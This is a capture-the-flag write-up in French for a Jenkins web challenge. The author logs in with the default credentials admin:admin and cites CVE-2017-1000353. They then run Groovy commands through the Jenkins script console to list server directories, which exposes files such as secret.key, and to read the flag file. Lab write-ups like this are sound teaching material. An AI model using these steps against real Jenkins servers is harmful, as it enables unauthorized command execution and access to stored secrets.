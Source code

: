 ﻿  
*****  
		                     Jenkins - Web
*****
**Enoncé:** [lien de l'épreuve](http://51.91.120.156:8085)

Pour cette épreuve nous n'avons pas de consigne juste un lien qui redirige vers cette page :

![](https://lh3.googleusercontent.com/K_cihXEqyHqqt8pWcPkGQMZjNrB6__hXdgGCmzAzfB5Je5aaAc9Co01G5EMzaRl2jT0MIczKibg)

Essayons de nous authentifier avec des identifiants par défaut:

    root : root 

Ceci ne fonctionne pas essayons:  `admin : admin` 

Et bingo on s’authentifie.
La version de **Jenkins**  actuelle, c'est à dire la  [version. 2.46.1](http://jenkins-ci.org/) a une vulnérabilité datant de **2017** dont le **CVE** est le suivant: [CVE-2017-1000353](https://www.cvedetails.com/cve/CVE-2017-1000353/) reste à exploiter cette vulnérabilité.

En fouillant la plateforme, nous sommes tombé sur une [console de script](http://51.91.120.156:8085/script) permettant d'exécuter des scripts sur le serveur. Ce sera notre porte d'entrer.
Nous allons y injecter ce script groovy: 

```groovy
println "sh -c ls -al".execute().text
```
**qui nous permettra de lister les fichiers et dossiers cachés du répertoire courant.**
**Résultat:**
>bin
boot
dev
docker-java-home
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

Nous allons maintenant retrouver le flag. Listons les fichiers et dossiers contenues dans le répertoire **/var/** . Pour cela injectons ce script:
```groovy
println "ls /var/".execute().text
```
**Résultat:**
>backups
cache
jenkins_home
lib
local
lock
log
mail
opt
run
spool
tmp

Voyons ce qu'il a dans le dossier **jenkins_home**  :
```groovy
println "ls -al /var/jenkins_home/".execute().text
```
**Résultat**:
>total 136
drwxr-xr-x  1 jenkins jenkins 4096 Nov 14 10:00 .
drwxr-xr-x  1 root    root    4096 Apr 16  2019 ..
-rw-r--r--  1 jenkins jenkins  220 May 15  2017 .bash_logout
-rw-r--r--  1 jenkins jenkins 3526 May 15  2017 .bashrc
drwxr-xr-x  3 jenkins jenkins 4096 Nov 13 09:38 .java
-rw-r--r--  1 jenkins jenkins   43 Nov 24 07:34 .owner
-rw-r--r--  1 jenkins jenkins  675 May 15  2017 .profile
-rw-r--r--  1 jenkins jenkins 4547 Nov 14 10:00 config.xml
-rw-r--r--  1 jenkins jenkins   86 Nov 13 09:38 copy_reference_file.log
-rw-r--r--  1 jenkins jenkins   32 Nov 13 09:44 flag.txt
-rw-r--r--  1 jenkins jenkins  159 Nov 13 13:48 hudson.model.UpdateCenter.xml
-rw-r--r--  1 jenkins jenkins  134 Nov 13 21:42 hudson.tasks.Shell.xml
-rw-r--r--  1 jenkins jenkins  215 Nov 13 21:42 hudson.triggers.SCMTrigger.xml
-rw-------  1 jenkins jenkins 1712 Nov 13 09:39 identity.key.enc
drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:38 init.groovy.d
-rw-r--r--  1 jenkins jenkins    6 Nov 13 13:48 jenkins.install.InstallUtil.lastExecVersion
-rw-r--r--  1 jenkins jenkins    6 Nov 13 09:39 jenkins.install.UpgradeWizard.state
-rw-r--r--  1 jenkins jenkins  159 Nov 13 21:42 jenkins.model.ArtifactManagerConfiguration.xml
-rw-r--r--  1 jenkins jenkins  268 Nov 13 21:42 jenkins.model.JenkinsLocationConfiguration.xml
drwxr-xr-x  5 jenkins jenkins 4096 Nov 13 18:37 jobs
drwxr-xr-x  3 jenkins jenkins 4096 Nov 13 09:39 logs
-rw-r--r--  1 jenkins jenkins  907 Nov 13 13:53 nodeMonitors.xml
drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:39 nodes
drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:38 plugins
-rw-r--r--  1 jenkins jenkins  130 Nov 13 13:48 queue.xml.bak
-rw-r--r--  1 jenkins jenkins   64 Nov 13 09:38 secret.key
-rw-r--r--  1 jenkins jenkins    0 Nov 13 09:38 secret.key.not-so-secret
drwx------  4 jenkins jenkins 4096 Nov 13 11:08 secrets
drwxr-xr-x  2 jenkins jenkins 4096 Nov 23 13:48 updates
drwxr-xr-x  2 jenkins jenkins 4096 Nov 13 09:39 userContent
drwxr-xr-x  3 jenkins jenkins 4096 Nov 13 13:39 users
drwxr-xr-x 10 jenkins jenkins 4096 Nov 13 09:38 war
drwxr-xr-x 10 jenkins jenkins 4096 Nov 13 18:05 workspace

Une partie du mystère résolue. On peut apercevoir le fichier **flag.txt** dans la liste. Lisons maintenant son contenu en utilisant **cat**:

```groovy
println "cat /var/jenkins_home/flag.txt".execute().text
```
**Résultat:**
>
>CTF_ThatWasUnbreakableIThought!

Bingo enfin on a le flag : **CTF_ThatWasUnbreakableIThought!**



